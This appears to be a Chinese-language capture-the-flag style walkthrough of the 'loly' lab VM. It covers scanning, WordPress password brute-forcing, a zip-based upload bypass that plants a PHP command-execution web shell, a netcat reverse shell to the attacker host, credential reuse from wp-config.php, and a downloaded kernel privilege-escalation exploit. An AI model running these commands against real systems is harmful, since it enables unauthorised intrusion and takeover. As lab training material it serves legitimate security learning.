# 前言

- [x] **挑战攻克该靶机30分钟**

靶机：`loly`靶机，IP地址为`192.168.10.11`

攻击：`kali`，IP地址为`192.168.10.6`

靶机和攻击机都采用`VMware`虚拟机，都采用桥接网卡模式

> 文章涉及的靶机及工具，都可以自行访问官网或者项目地址进行获取，或者通过网盘链接下载  `https://pan.quark.cn/s/1b1b042ac602`

# 主机发现

也就是相当于现实环境中去发现确定主机的`ip`地址，因为这里是靶机环境，所以跳过了从域名到`ip`地址的过程。

使用`arp-scan -l`或者`netdiscovery -r 192.168.10.1/24`

当然也可以使用`nmap`等工具进行

```shell
arp-scan -l
```


# 信息收集

## 使用nmap扫描目标端口等信息

首先扫描目标的`tcp`端口的开放情况

```shell
nmap -sT --min-rate=1000 192.168.10.11 -p- -oA nmap-tcp
```


再扫描`udp`端口的开放情况

```shell
nmap -sU --min-rate=1000 192.168.10.11 --top-ports 20 -oA nmap-udp
```



可以看到明确开放的`udp`端口没有，所以下面对`tcp`端口进行一个筛选，这里因为`22`端口并不是明确`closed`的，是`filtered`的，所以也要包括在内

```shell
ports=`grep /tcp nmap-tcp.nmap | awk -F'/' '{print $1}' | paste -sd ','`
```


进一步对这些端口进行服务、系统等探测

```shell
nmap -sV -O -sC 192.168.10.11 -p $ports --min-rate=1000
```



再使用`nmap`的漏洞检测脚本对这些端口进行探测

```shell
nmap --script=vuln 192.168.10.11 -p $ports
```



枚举出的目录，可能是`wordpress`的CMS


## 网站信息探测

访问80端口的界面，是`nginx`安装后的默认界面，页面源代码没有信息泄露



使用`whatweb`或者浏览器插件`wappalyzer`进行查看相关配置



```shell
whatweb http://192.168.10.11 -v
```



使用`gobuster`等目录爆破工具进行测试

```shell
gobuster dir -u http://192.168.10.11 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -b 404 -x php,html,txt,md,zip
```



访问`wordpress`，可以看到，很是杂乱，这个不用说了吧，一般可能都需要绑定域名了



随便点击一个链接，可以发现指向的域名`loly.lc`，或者自己去查看页面源代码



绑定域名，采用静态文件`hosts`，计算机会优先去查看这个文件中的解析对应。

在`linux`系统中，文件在`/etc/hosts`，`windows`系统，文件在`C:\Windows\System32\Drivers\etc\hosts`

这里使用的是`kali`，所以修改`/etc/hosts`文件



再次访问，可以发现，解析成功



# wordpress探测

使用`whatweb`进一步探测，发现`wordpress`的版本信息

```shell
whatweb http://192.168.10.11/wordpress -v
```



那么下一步，使用针对`wordpress`的工具`wpscan`

```shell
wpscan --url http://192.168.10.11/wordpress -e u
```



枚举出用户，进一步进行密码破解

```shell
wpscan --url http://192.168.10.11/wordpress -U loly -P /usr/share/wordlists/rockyou.txt
```



用户名`loly`和密码`fernando`


# 文件上传

在登录后，经过多方测试，最终在插件`AdRotate`中，找到一个文件上传的测试点，并且在寻找的时候，也发现在相关设置中有文件上传后的地址，很清晰了，只是文件上传的种种需要多方测试





首先就是简单的测试：

1. 直接上传`php`，不行
2. 修改后缀名再上传，不行。
3. 后缀名出以`shell.php.jpg`，生成图片马。不行
4. 双写`php`以及大小写`php`，不行
5. 更改`mime`类型，不行
6. 以图片的形式上传，不解析为`php`
7. 无法上传`.htaccess`文件，无法修改解析

根据上面，测试其他的几种，也就是`js,html,zip`

1. `html`类型，不解析为`php`，所以不行
2. `js`类型，显示源代码，也不解析，不行
3. 以`zip`压缩后的文件，可以，并成功解析

只是上传为`zip`文件，访问的时候以`php`访问。如

`info.php.zip`，访问的时候为`info.php`

这里注意一点，采用`linxu`中的`zip`压缩工具，不要使用`windows`压缩，不一样

```shell
echo "<?php phpinfo();?>" > info.php

zip -r -o info.php.zip info.php 
```



我也测试过，把压缩包的数据进行抓包然后截取，但是不行。所以我放弃使用`windows`上传这个脚本了



那么编写一个代码，以可以命令执行

```shell
echo '<?php system($_GET["loly"]);?>' > shell.php
zip -r -o shell.php.zip shell.php
```

上传后，访问即可，构造`shell.php?loly=ls`，即可发现



构造反弹`shell`代码，首先在`kali`开启监听，然后再使用下面代码

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.10.6 9999 >/tmp/f
#进行url编码
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%20192.168.10.6%209999%20%3E%2Ftmp%2Ff
```




# 靶机内信息收集

既然有`wordpress`，那么就一定要看看其配置文件`wp-config.php`

获取用户名`wordpress`和密码`lolyisabeautifulgirl`



查看网络状态

```shell
ss -antulp
```



发现`3306`开放，可能就是`mysql`，以前面的登录测试，登录之前，先测试安装什么版本的`python`

```shell
dpkg -l | grep python
#加一层shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

数据库中只有一个用户名和密码，与前面枚举出的一样

继续探测信息，首先知道两个密码。`fernando`和`lolyisabeautifulgirl`

查看当前系统用户，发现只有`loly`一个

使用`find`寻找具有SUID权限的文件，发现`sudo`和`su`

```shell
find / -perm -4000 -print 2>/dev/null
```

`sudo -l`测试，需要密码



尝试使用两个密码，测试`loly`，是否存在多用的情况

成功了，以`lolyisabeautifulgirl`登录



再次使用`sudo -l`，没有文件给`loly`使用。

收集内核版本等信息

```shell
uname -a
uname -r
cat /etc/issue
cat /etc/*release
lsb_release
```



当然，后面其实还有脚本上传进行检测，不过因为这里搜索到合适的提权脚本，并且可以使用，所以不上传脚本了

# 提权

使用`gcc -v`确定靶机安装了`gcc`

使用`searchsploit`搜索到可利用的漏洞

```shell
searchsploit 4.4.0-31 ubuntu Privilege
```



根据内核版本和系统信息，这些都是可以测试的，先测试第二个`45010.c`

```shell
#把脚本下载到当前目录下
searchsploit -m 45010.c
```



然后查看脚本


在`kali`使用`python`开启监听，然后靶机使用`wget`下载即可

```shell
#kali执行
python3 -m http.server 1234

#靶机执行
wget http://192.168.10.6:1234/45010.c
```

这里在`loly`的主目录，因为他有一个脚本，可能会定期清理`/tmp`目录，我也不想再更改脚本，省时间



靶机执行脚本中编译和执行即可

```shell
gcc 45010.c -o exp
chmod +x exp
./exp
```





对应其他的脚本能否提权，自己去试试，一定要动手测试，积累经验

# 总结

该靶机的考察主要就是从web到内网

1. 网站主流CMS的识别
2. `wpscan`的使用，当然爆破也可以使用其他工具，如`burp`等，不过这个工具是专门针对`wordpress`，所以，建议使用
3. 文件上传如何绕过检测，这里**应该**是利用对于压缩包的一个解析漏洞，导致执行了`php`代码
4. `wordpress`的配置文件要清楚
5. 靶机内的信息收集，内核等信息